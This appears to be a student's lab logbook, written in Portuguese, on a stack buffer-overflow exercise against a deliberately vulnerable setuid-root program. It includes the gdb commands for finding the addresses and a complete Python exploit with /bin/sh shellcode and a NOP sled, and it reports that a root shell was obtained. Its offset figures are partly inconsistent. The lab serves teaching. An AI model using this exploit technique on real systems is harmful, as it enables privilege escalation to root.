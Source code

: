 # Trabalho realizado nas Semanas #5 e #6

## Task 1 - Compreender o shellcode

Após compilar o programa com "make", verificamos que tanto a versão 32-bit como 64-bit funcionam da mesma maneira.

![alt text](../img/logbook5-img1.png)

Porém, a opção execstack é importante para que o programa funcione, ao marcar a stack como executável devido a alguns mecanismos de segurança que previnem a execução.

## Task 2 - Programa Vulnerável

É dado um programa com uma vulnerabilidade de buffer-overflow, já que o programa usa strcpy(), que não verifica o tamanho do input em relação ao buffer. O programa tem como owner "root", pelo que se a vulnerabilidade for explorada com sucesso, um utilizador comum pode ter acesso a uma root shell.

```
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

Iremos utilizar este programa para demonstrar um ataque na Task 3.

## Task 3 - Ataque

Para fazer debugging de stack-L1-dbg, teremos de executar a seguinte sequência de comandos usando gdb:

``` shell
$ gdb stack-L1-dbg
gdb-peda$ b bof
gdb-peda$ run
gdb-peda$ next
gdb-peda$ p $ebp                   # Frame pointer
$1 = (void *) 0xffffdfd8
gdb-peda$ p &buffer                # Endereço do buffer
$2 = (char (*)[100]) 0xffffdfac
gdb-peda$ quit
```

O objetivo aqui é saber a diferença entre os endereços do buffer e de retorno. Esta diferença diz-nos quanto espaço do buffer é necessário preencher antes de reescrever o return address.

![alt text](../img/logbook5-img2.png)
*Figura 2 - endereços do buffer e de retorno*

Então, os endereços do buffer e de retorno são:
```
$ebp = 0xffffc918
&buffer = 0xffffc894
```

Devemos usar estes endereços para calcular as variáveis ret e offset, em exploit.py.

Partindo dos endereços obtidos, alteramos o código para o seguinte:

``` py
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
start = 517 - len(shellcode) 
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffc894 + start
offset = 0xffffc918 + 4 - 0xffffc894

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Notas:  
ret -> ao adicionar start ao endereço do buffer, obtemos o endereço de início do shellcode.  
offset -> a adição de 4 deve-se ao tamanho do endereço de retorno (4 bytes para 32-bit). A subtração de 0xffffc894 irá fazer o cálculo final do offset (40 bytes).

Com este código, conseguimos efetivamente abrir uma root shell:

![alt text](../img/logbook5-img3.png)  
*Figura 3 - exploit bem-sucedido*
